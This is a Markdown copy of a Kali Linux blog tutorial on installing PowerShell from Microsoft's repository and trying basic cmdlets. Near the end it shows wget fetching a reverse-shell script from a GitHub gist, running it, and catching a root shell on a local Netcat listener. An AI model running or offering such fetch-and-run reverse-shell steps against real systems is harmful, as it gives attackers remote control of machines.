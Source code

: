 ```yaml
---
title: "Installing PowerShell on Kali Linux"
date: Wed, 06 Jun 2018 00:00:00 +0000
draft: false
type: posts
categories: 
- 
---
```

# Installing PowerShell on Kali Linux
https://www.kali.org/blog/installing-powershell-on-kali-linux/images/powershell-on-kali-linux-v3.jpg
<br/>

<br/>
**UPDATE NOV 2019**
-------------------

This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a:

```sh
apt update && apt -y install powershell
```

And you will have powershell on your system.

### Old Post

You may already be aware that you can safely [add external repositories to your Kali Linux installation](https://www.kali.org/blog/advanced-package-management-in-kali-linux/) but you may not be aware that one of the many repositories available online includes one from Microsoft that includes [PowerShell](https://github.com/PowerShell/PowerShell). The repository is for Debian but its packages install perfectly well on Kali, as we will show in this post.

### PowerShell Package Installation in Kali

We begin by installing the necessary dependencies, most of which should already be installed in your Kali installation by default:

```sh
apt update && apt -y install curl gnupg apt-transport-https
```

Next, we need to download and add the public repository GPG key so APT will trust the packages and alert you to any issues with package signatures:

```sh
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
```

With the GPG key added, we proceed to add the Microsoft package repository to its own package list file under **/etc/apt/sources.list.d/** and update the list of available packages:

```sh
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
```

Finally, we proceed to install the powershell package:

```sh
apt -y install powershell
```

### Running PowerShell

When the package installation completes, running **pwsh** will start up PowerShell, presenting us with the familiar “PS” prompt:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root>
```

If you’re new to PowerShell, one of the first things you will likely want to do is update the built-in help, which can be done by running the **Update-Help** Cmdlet. This may take a little while to complete but only really needs to be run once in a rare while:

```console
PS /root> Update-Help
Updating Help for module Microsoft.PowerShell.Utility
Locating Help Content...
```

As you might expect, you won’t find all the commands you’re used to when using PowerShell on Windows but all of the core modules are present and the code is under constant development and improvement:

```console
PS /root> Get-Process -Name gnome*
NPM(K) PM(M) WS(M) CPU(s) Id SI ProcessName
------ ----- ----- ------ -- -- -----------
0 0.00 5.71 0.03 1073 072 gnome-keyring-d
0 0.00 9.80 0.19 659 649 gnome-session-b
0 0.00 13.72 0.36 1089 080 gnome-session-b
0 0.00 110.06 3.36 778 649 gnome-shell
0 0.00 277.15 27.85 1170 080 gnome-shell
0 0.00 11.77 0.09 1199 075 gnome-shell-cal
0 0.00 77.79 4.58 1381 080 gnome-software
0 0.00 36.58 2.03 1646 646 gnome-terminal-
```

One of the surprising things you _can_ do however, is use PowerShell to send a reverse shell to a Netcat listener. We came across a [small PowerShell reverse shell](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1) online and much to our surprise, it happily connected back to our listener:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root> wget -q https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1
PS /root> ./mini-reverse.ps1
────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -lvnp 413
listening on [any] 413 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59006
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux kali 4.15.0-kali3-amd64 #1 SMP Debian 4.15.17-1kali1 (2018-04-25) x86_64 GNU/Linux
```

We think it’s remarkable that, not only did Microsoft Open-source PowerShell, they’ve also been constantly updating and improving it, and having a public package repository for it makes installation a breeze.

#### [Source](https://www.kali.org/blog/installing-powershell-on-kali-linux/)

<br/>
---
